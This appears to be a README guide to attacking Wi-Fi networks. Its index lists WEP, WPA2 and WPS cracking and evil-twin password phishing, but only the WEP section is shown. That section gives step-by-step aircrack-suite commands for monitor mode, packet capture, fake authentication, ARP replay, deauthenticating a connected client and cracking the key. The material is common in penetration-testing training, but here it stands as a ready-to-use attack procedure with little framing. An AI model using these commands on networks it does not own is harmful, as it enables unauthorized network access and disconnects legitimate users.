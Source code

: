# Wireless Attacks Step-By-Step Guid
                        *Created by Rakesh Pujari <rakesh.pujari11@gmail.com>*

================================================================================                        
## Pre-requisite:

- Kali Linux OS running live on your Laptop.
- Alfa Network Adapter AWUS036H or any good wireless adapter.
- A wireless router with WPA2 Enterprise support.

================================================================================

#Index.
```
1. Cracking WEP
2. Cracking WPA2 Personal.
3. Cracking WPA2 Enterprise using Evil Twin Attack.
4. Phishing password using Evil twin attack.
5. Cracking WPS.
```
================================================================================


1. Cracking WEP:
```
   a.	Connect the Alfa card to the kali linux vm. Check the interface name using the below command:
        `iwconfig`
   b.	Set the wireless interface to Monitor mode with the following commands:
       `ifconfig wlan0 down
      	iwconfig wlan0 mode monitor
        ifconfig wlan0 up`
   c.	Confirm the wireless interface is in monitor mode by running the following command:
       `iwconfig wlan0`
   d.	Run the airodump-ng sniffer to gain the details of the access points in the range.
       `airodump-ng wlan0`
   e.	The output shows the details of the Access Points (AP) which are in range.
   f.	Note the following details of the AP which you want to crack the password:
      -	AP’s Mac Address (BSSID)
      -	Name of the AP (ESSID)
      -	Channel Number
      -	Privacy (WEP/WPA2), Ciphers(TKIP/CCMP/MGT)
      -	Clients Mac Address (Station Mac)
   g.	Now, start the airodump with filters to capture only the desired AP’s traffic.
      `airodump-ng wlan0 –essid <Name> --bssid <AP Mac> -c  <Channel number> -w <Filename to save capture>`
   h.	Initialize a fake authentication with the AP with the following command:
      `aireplay-ng -1 0 –e <ESSID> --bssid <AP Mac> -h <Own mac/ Alfa card mac> wlan0`
   i.	Open another terminal and start ARP replay attack to capture Data packets at a faster rate in    order crack the WEP passkey.
      `aireplay-ng -3 –b <BSSID> -h <own mac/Alfa card mac> wlan0`
   j.	Open one more terminal, and deauthenticate a connected client, so that when the user connects back, and performs an ARP , we can capture the ARP request for replay.
      `aireplay-ng -0 1 –a <AP Mac> -c <Client Mac> wlan0`
   k.	As soon as the ARP request is captured, aireplay will start replaying the arp packet to capture  the data packets at a faster rate. Notice the terminal in which arp replay attack is started and the airodump-ng output for the data packets.
   l.	When 50000 data packets are captured, run the following command to crack the WEP Password.
      `aircrack-ng <capture file name>`
   m.	If the password is not cracked, collect more data packets and run the aircrack-ng command again to crack the password.
```
  - There are other methods as well for cracking WEP ex. Korek Chop Chop attack, Fragmentation attack etc.
